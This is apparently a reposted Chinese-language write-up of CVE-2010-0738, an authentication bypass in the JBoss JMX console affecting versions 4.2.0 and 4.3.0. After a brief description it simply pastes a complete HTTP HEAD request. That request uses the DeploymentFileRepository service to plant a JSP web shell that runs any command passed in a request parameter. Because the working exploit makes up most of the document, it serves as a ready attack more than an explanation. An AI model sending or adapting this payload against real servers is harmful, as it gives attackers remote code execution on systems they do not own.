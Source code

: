 # （CVE-2010-0738）JBoss JMX控制台安全验证绕过漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2981](https://www.zhihuifly.com/t/topic/2981)

# （CVE-2010-0738）JBoss JMX控制台安全验证绕过漏洞

## 一、漏洞简介

这个漏洞利用方法跟CVE-2007-1036一样，不过这个是绕过了get和post传输限制，利用head传输方式发送payload

## 二、漏洞影响

jboss4.2.0 and jboss 4.3.0

## 三、复现过程

因为跟上个漏洞利用差不多，只不过用了head传输方式，我这里就直接贴payload了

```
HEAD /jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodIndex=6&arg0=..%2Fjmx-console.war%2F&arg1=hax0rwin&arg2=.jsp&arg3=<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True HTTP/1.1

Host: hostx:portx

User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9) Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-us,en;q=0.5

Accept-Encoding: gzip,deflate

Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7

Keep-Alive: 300 `Proxy-Connection: keep-alive` 
```